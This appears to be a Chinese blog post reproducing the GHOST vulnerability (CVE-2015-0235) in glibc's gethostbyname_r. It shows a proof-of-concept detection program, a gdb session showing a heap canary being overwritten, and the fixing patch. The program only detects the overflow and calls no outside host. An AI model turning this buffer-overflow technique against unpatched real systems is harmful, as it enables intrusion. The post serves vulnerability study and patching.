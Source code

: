 ```yaml
---
layout: post
title: GHOST PoC Explained
excerpt: "CVE-2015-0235漏洞复现"
categories: [漏洞复现]
comments: true
---
```


验证代码：
```
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"
//$1 = {buffer = "buffer", '\0' <repeats 1017 times>, canary = "in_the_coal_mine"}
struct {
    char buffer[1024];
    char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };//这个是将temp赋值

int main(void) {
    struct hostent resbuf;
    struct hostent *result;
    int herrno;
    int retval;

    /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;     //999 = 1024 -16*1 -2*4 -1   (char * 为指针，在32为中为4字节)
    char name[sizeof(temp.buffer)];//申请一个1024字节的char
    memset(name, '0', len);     // 向name前999字节复制'0'
    name[len] = '\0';           //第999字节为\0


    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);//调用了这个有漏洞的方法,将name复制到buffer中

    if (strcmp(temp.canary, CANARY) != 0) {         //若canary中的值不等于in_the_coal_mine，则证明有漏洞
        puts("vulnerable");
        exit(EXIT_SUCCESS);
    }
    if (retval == ERANGE) {                         //若返回状态码为ERANGE(表示一个范围错误),则证明漏洞不存在
        puts("not vulnerable");
        exit(EXIT_SUCCESS);
    }
    puts("should not happen");
    exit(EXIT_FAILURE);
}
```
很明显是存在漏洞的。简单解释一下 PoC，在栈上布置一个区域 temp，由 buffer 和 canary 组成，然后初始化一个 name，最后执行函数 gethostbyname_r()，正常情况下，当把 name+*host_addr+*h_addr_ptrs+1 复制到 buffer 时，会正好覆盖缓冲区且没有溢出。然而，实际情况并不是这样。

验证：
```bash
gcc vunl.c
[root@localhost morty]# ./a.out 
vulnerable
```
在漏洞代码中，首先我们定义了CANARY, “in_the_coal_mine”，这是我们需要覆盖的目标，之后我们定义了结构体，它包含了两个chunks，这两个chunk将会被glibc的gethostbyname_r方法覆盖掉，替换成CANARY的值，第一个chunk叫buffer它的大小是1024字节，它将被gethostbyname_r方法的“buflen”参数溢出掉，紧跟着buffer chunk的是canary chunk，从buffer溢出的字节被放到了canary chunk中， Now that we have defined our struct representing the buffer for gethostname_r, the name char array is being initialized with 999 bytes of ASCII ‘0’ / HEX 0x30.

函数 gethostbyname_r() 在 include/netdb.h 中定义如下：
```
struct hostent {
    char  *h_name;            /* official name of host */
    char **h_aliases;         /* alias list */
    int    h_addrtype;        /* host address type */
    int    h_length;          /* length of address */
    char **h_addr_list;       /* list of addresses */
}
#define h_addr h_addr_list[0] /* for backward compatibility */

int gethostbyname_r(const char *name,
        struct hostent *ret, char *buf, size_t buflen,
        struct hostent **result, int *h_errnop);
```
- name：The name of the Internet host whose entry you want to find.
- ret：A pointer to a struct hostent where the function can store the host entry.
- buf：A pointer to a buffer that the function can use during the operation to store host database entries; buffer should be large enough to hold all of the data associated with the host entry. A 2K buffer is usually more than enough; a 256-byte buffer is safe in most cases.
- buflen：The length of the area pointed to by buffer.
- result：A pointer to a struct hostent where the function can store the host entry.
- h_errnop：A pointer to a location where the function can store an herrno value if an error occurs.
...
...
...
gdb开始调试
```shell
gdb -q a.out 
(gdb) b main
Breakpoint 1 at 0x80484b8: file vunl.c, line 21.
(gdb) set disassembly-flavor intel
(gdb) r
Starting program: /home/morty/a.out 

Breakpoint 1, main () at vunl.c:21
21	    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
Missing separate debuginfos, use: debuginfo-install glibc.i686
(gdb) disass main
Dump of assembler code for function main:
0x080484a4 <main+0>:	lea    ecx,[esp+0x4]
0x080484a8 <main+4>:	and    esp,0xfffffff0
0x080484ab <main+7>:	push   DWORD PTR [ecx-0x4]
0x080484ae <main+10>:	push   ebp
0x080484af <main+11>:	mov    ebp,esp
0x080484b1 <main+13>:	push   ecx
0x080484b2 <main+14>:	sub    esp,0x454
0x080484b8 <main+20>:	mov    DWORD PTR [ebp-0x8],0x3e7
0x080484bf <main+27>:	mov    eax,DWORD PTR [ebp-0x8]
0x080484c2 <main+30>:	mov    DWORD PTR [esp+0x8],eax
0x080484c6 <main+34>:	mov    DWORD PTR [esp+0x4],0x30
0x080484ce <main+42>:	lea    eax,[ebp-0x428]
0x080484d4 <main+48>:	mov    DWORD PTR [esp],eax
0x080484d7 <main+51>:	call   0x8048388 <memset@plt>
0x080484dc <main+56>:	mov    eax,DWORD PTR [ebp-0x8]
0x080484df <main+59>:	mov    BYTE PTR [ebp+eax*1-0x428],0x0
0x080484e7 <main+67>:	lea    eax,[ebp-0x28]
0x080484ea <main+70>:	mov    DWORD PTR [esp+0x14],eax
0x080484ee <main+74>:	lea    eax,[ebp-0x24]
0x080484f1 <main+77>:	mov    DWORD PTR [esp+0x10],eax
0x080484f5 <main+81>:	mov    DWORD PTR [esp+0xc],0x400
0x080484fd <main+89>:	mov    DWORD PTR [esp+0x8],0x8049840
0x08048505 <main+97>:	lea    eax,[ebp-0x20]
0x08048508 <main+100>:	mov    DWORD PTR [esp+0x4],eax
0x0804850c <main+104>:	lea    eax,[ebp-0x428]
0x08048512 <main+110>:	mov    DWORD PTR [esp],eax
0x08048515 <main+113>:	call   0x80483a8 <gethostbyname_r@plt>
0x0804851a <main+118>:	mov    DWORD PTR [ebp-0xc],eax
0x0804851d <main+121>:	mov    DWORD PTR [esp+0x4],0x8048654
0x08048525 <main+129>:	mov    DWORD PTR [esp],0x8049c40
0x0804852c <main+136>:	call   0x80483c8 <strcmp@plt>
0x08048531 <main+141>:	test   eax,eax
0x08048533 <main+143>:	je     0x804854d <main+169>
0x08048535 <main+145>:	mov    DWORD PTR [esp],0x8048665
---Type <return> to continue, or q <return> to quit---

(gdb) b *main+113
Breakpoint 2 at 0x8048515: file vunl.c, line 26.
(gdb) c
Continuing.

Breakpoint 2, 0x08048515 in main () at vunl.c:26
26	    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
```

查看temp
```
(gdb) print temp
$1 = {buffer = "buffer", '\0' <repeats 1017 times>, canary = "in_the_coal_mine"}
(gdb) p &temp
$2 = (struct {...} *) 0x8049840

(gdb) x/1024s 0x8049840
0x8049840 <temp>:	 "buffer"
0x8049847 <temp+7>:	 ""
0x8049848 <temp+8>:	 ""
0x8049849 <temp+9>:	 ""
0x804984a <temp+10>:	 ""
0x804984b <temp+11>:	 ""
...
...
...
0x8049c3d <temp+1021>:	 ""
0x8049c3e <temp+1022>:	 ""
0x8049c3f <temp+1023>:	 ""
0x8049c40 <temp+1024>:	 "in_the_coal_mine"
0x8049c51:	 ""
0x8049c52:	 ""
0x8049c53:	 ""
0x8049c54 <completed.5699>:	 ""
0x8049c55:	 ""
```
我们的程序中temp有两个buffer:“buffer”和“canary”，buffer的内容包括buffer的名字“buffer”6 bytes+ 1017 bytes 的 ‘0’  + null terminating byte = 1024 bytes，CANARY的位置在0x8049c40，并且在temp结构体中，初始值为 “in_the_coal_mine”

现在我们再运行一行指令，使gethostbyname_r方法被调用，然后再查看temp struct
```
(gdb) ni
(gdb) x/3s 0x8049c40
0x8049c40 <temp+1024>:	 "000"
0x8049c44 <temp+1028>:	 "he_coal_mine"
0x8049c51:	 ""
```
我们看到CANARY的值被覆盖掉了

#### 打补丁
漏洞代码的位置在`nss/digits_dots.c`补丁的内容是给size_needed增加了4字节的空间
```
vi nss/digits_dots.c

From this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

To this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);
```
This adds the 4 missed bytes that cause the overflow from the first chunk to the next chunk. Now if we add this to the calculation of the “size_t len” from the above PoC code, instead of 999 bytes the name char array buffer will be 995 and the overflow will not work.